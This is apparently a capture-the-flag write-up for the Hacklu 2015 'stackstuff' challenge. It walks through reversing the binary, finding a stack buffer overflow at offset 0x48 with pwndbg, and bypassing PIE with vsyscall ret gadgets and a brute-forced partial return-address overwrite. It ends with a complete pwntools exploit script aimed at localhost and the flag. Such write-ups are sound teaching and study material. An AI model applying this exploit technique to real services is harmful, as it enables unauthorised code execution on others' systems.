 ```yaml
---
layout: post
title: Hacklu 2015 stackstuff
date: 2025-07-08 13:23:09 +0300
categories: Nightmare-series partial-overwrite
tags: nightmare buffer-overflow vsyscall x64 partial-overwrite brute-force
---
```


## Information 
- Category: Pwn
- Points:  --

## Description
> None

## Write-up
First, let’s run the program and see what it does:
<img src="/images/stuff/run.png" style="border-radius: 14px;">

As you can see, nothing happens when we run the program.
So let's do some reverse engineering to figure out what it's actually doing.

<img src="/images/stuff/rev.png" style="border-radius: 14px;">

As you can see, the program is listening on port ```0x5ea```, which is ```1514``` in decimal (after applying ```htons```).
So we can interact with the program using **netcat** on ```localhost``` port ```1514```:
```bash 
nc 127.0.0.1 1514

```
Now we want to see what the program is actually doing by connecting to port 1514 and checking its response.

<img src="/images/stuff/a.png" style="border-radius: 14px;">

Now we know that the program first reads an integer as a length, then reads that number of bytes from our input.
To check if there's a **buffer overflow**, we need to understand the logic behind this behavior.
So let’s go back to **Ghidra** and find the function that handles this input to analyze it more closely.

<img src="/images/stuff/p.png" style="border-radius: 14px;">

> From the reference string, you can find the function and use **Xref** to locate where it's called.
{: .prompt-tip}

<img src="/images/stuff/l.png" style="border-radius: 14px;">

The program uses ```fread()``` and lets the user decide how many bytes to read.
This makes it easy to create a **buffer overflow** by giving it a large size.

In the next step, we’ll calculate the offset to the **return address**.
But how do we do that?
We'll use **pwndbg** and set a breakpoint inside fread to examine the stack and memory layout.

```bash
gdb -q stackstuff
pwndbg: loaded 201 pwndbg commands. Type pwndbg [filter] for a list.
pwndbg: created 13 GDB functions (can be used with print/break). Type help function to see them.
Reading symbols from stackstuff...
Download failed: Connection refus
.
.
.
pwndbg> b*check_password_correct + 167
Breakpoint 1 at 0xf79
pwndbg> start
...
pwndbg> c
```

Then, make sure the program is listening by connecting to it:
```
nc 127.0.0.1 1514
Hi! This is the flag download service.
To download the flag, you need to specify a password.
Length of password: 4
ABCD
```
Now, after sending some random data to the program, let’s switch to **pwndbg** and see what’s happening under the hood:
```bash

[Switching to Thread 0x7ffff7dae740 (LWP 113323)]

Thread 2.1 "exe" hit Breakpoint 1, 0x0000555555400f79 in check_password_correct ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─[ REGISTERS / show-flags off / show-compact-regs off ]──
 RAX  0x7fffffffdec0 ◂— 0
 RBX  0
 RCX  0x7ffff7f978e0 (_IO_2_1_stdin_) ◂— 0xfbad2088
 RDX  4
 RDI  0x7fffffffdec0 ◂— 0
 RSI  1
 R8   0
 R9   0
 R10  0
 R11  0x202
 R12  0x7fffffffe0f8 —▸ 0x7fffffffe53d ◂— 0x4100636578656572 /* 'reexec' */
 R13  1
 R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe310 —▸ 0x555555400000 ◂— jg 0x555555400047
 R15  0
 RBP  0x7fffffffe070 —▸ 0x7fffffffe0d0 ◂— 0
 RSP  0x7fffffffdeb0 —▸ 0x7fffffffdee0 ◂— 0
 RIP  0x555555400f79 (check_password_correct+167) ◂— call fread@plt
──────────[ DISASM / x86-64 / set emulate on ]───────────
 ► 0x555555400f79 <check_password_correct+167>    call   fread@plt                   <fread@plt>
        ptr: 0x7fffffffdec0 ◂— 0 
        size: 1
        n: 4
        stream: 0x7ffff7f978e0 (_IO_2_1_stdin_) ◂— 0xfbad2088

... ↓            5 skipped
──────────────────────[ BACKTRACE ]──────────────────────
 ► 0   0x555555400f79 check_password_correct+167
...
pwndbg> p/x $rdi
$2 = 0x7fffffffdec0
pwndbg> i f
Stack level 0, frame at 0x7fffffffdf10:
 rip = 0x555555400f79 in check_password_correct;
    saved rip = 0x555555400fd1
 called by frame at 0x7fffffffdf20
 Arglist at 0x7fffffffdea8, args:
 Locals at 0x7fffffffdea8, Previous frame's sp is 0x7fffffffdf10
 Saved registers:
  rip at 0x7fffffffdf08
pwndbg> p/x 0x7fffffffdf08 - $2
$3 = 0x48
pwndbg>
```
So the offset is ```0x48``` (72 bytes).
That means we need to send **72 bytes** to reach and control the return address.

> The program has **PIE** and **NX** mitigations enabled.
{: .prompt-info}

Before exiting ```pwndbg```, there’s one important thing to note:
The **stack must be properly aligned** before calling a function — especially when we're trying to return into one to get the flag.

Since this binary has **PIE** enabled, we can’t hardcode return addresses as usual.
But there's a trick: we can use a **vsyscall** address as a fake ```ret``` instruction.

```vsyscall``` is an old mechanism for system calls. Its address is **static** and doesn't change, even with PIE.

This makes it useful as a **ROP NOP** — a return instruction that helps us align the stack or chain our gadgets safely.
```bash
pwndbg> vmmap
...
0xffffffffff600000 0xffffffffff601000 --xp     1000       0 [vsyscall]
pwndbg>
```

Earlier, we mentioned that there’s a hidden function in the binary that prints the flag — but where is it exactly?

In **Ghidra**, we can find it easily. Here's what it looks like:
<img src="/images/stuff/o.png" style="border-radius: 14px;">

As you can see, this function directly calls the flag-printing logic.
Our goal is to redirect execution to this function after bypassing protections.

```bash
   0x0000555555401086 <+172>:	call   0x555555400fba <require_auth>
   0x000055555540108b <+177>:	lea    rsi,[rip+0x36d]        # 0x5555554013ff
   0x0000555555401092 <+184>:	lea    rdi,[rip+0x3b6]        # 0x55555540144f
   0x0000555555401099 <+191>:	call   0x555555400cd0 <fopen@plt>
```
Now we have a function that opens the flag, located at address ending in ```0x8b``` (```0x55555540108b```).
Because the binary uses **PIE**, the base address is randomized — but **the last byte stays the same**.

That means we only need to **brute-force the upper byte(s)** of the address.
Since PIE randomizes a small portion (typically 4 bits in local), there are only ```2^4 = 16``` possibilities.

So, with at most **16 attempts**, we can guess the correct address and jump to the flag function.

## Exploit
```python
from pwn import *

context.binary = './stackstuff'
context.log_level = 'debug'

vsyscall_ret = p64(0xffffffffff600800)
padding = b"A" * 0x48
fixed_byte = b"\x8b"

def conn():
    return remote('127.0.0.1', 1514)

def make_payload(i):
    return padding + vsyscall_ret * 2 + fixed_byte + bytes([i])

def send_payload(r, payload):
    try:
        r.sendline(b'90')
        r.sendline(payload)
        r.recvuntil(b"Length of password: ")
        line = r.recvline(timeout=2)
        log.success(f"Flag line: {line.decode(errors='ignore')}")
        return True
    except EOFError:
        return False
    except Exception as e:
        log.warning(f"Exception while receiving: {e}")
        return False

def main():
    i = 0x00
    while i <= 0xFF:
        log.info(f"Trying byte: {hex(i)}")
        r = conn()
        payload = make_payload(i)
        if send_payload(r, payload):
            log.success(f"Correct byte found: {hex(i)}")
            pause()
            break
        else:
            log.info(f"Byte {hex(i)} failed.")
            i += 0x10
        r.close()

if __name__ == "__main__":
    main()
```

## Flag
Flag: ```flag{g0ttem_b0yz}```
